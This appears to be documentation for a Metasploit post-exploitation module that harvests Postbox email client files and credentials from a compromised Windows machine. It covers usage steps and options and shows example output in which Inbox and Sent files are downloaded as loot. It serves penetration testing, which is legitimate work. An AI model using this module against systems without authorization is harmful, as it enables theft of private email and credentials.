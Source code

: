 ## Module Description

This post-exploitation module gathers artifacts found on Postbox related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/postbox
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/postbox) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Postbox's parent folder found
[*] Postbox's Inbox file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\PostboxApp\Profiles\b6yf1u6g.default\ImapMail\outlook.office365.com\INBOX
[*] Postbox Inbox downloaded
[+] File saved to:  /root/.msf4/loot/20210513064136_default_192.168.56.106_postboxINBOX_465924.bin

[+] To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:
[+] To:<*************@outlook.jp>
[+] To:"NoReplyOneDrive"<reply-fed017787564057e-25_HTML-166935770-7231722-937213@mail.onedrive.com>
[+] To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:
[+] From:"MicrosoftOneDrive"<email@mail.onedrive.com>
[+] From:To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:

[+] File with credentials saved:  /root/.msf4/loot/20210513064136_default_192.168.56.106_EXTRACTIONINBOX_835546.bin
[*] Postbox's parent folder found
[*] Postbox's Sent* file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\PostboxApp\Profiles\b6yf1u6g.default\ImapMail\outlook.office365.com\Sent-1.msf
[*] Postbox Sent-1.msf downloaded
[+] File saved to:  /root/.msf4/loot/20210513064137_default_192.168.56.106_postboxSent1.ms_354629.msf

  ```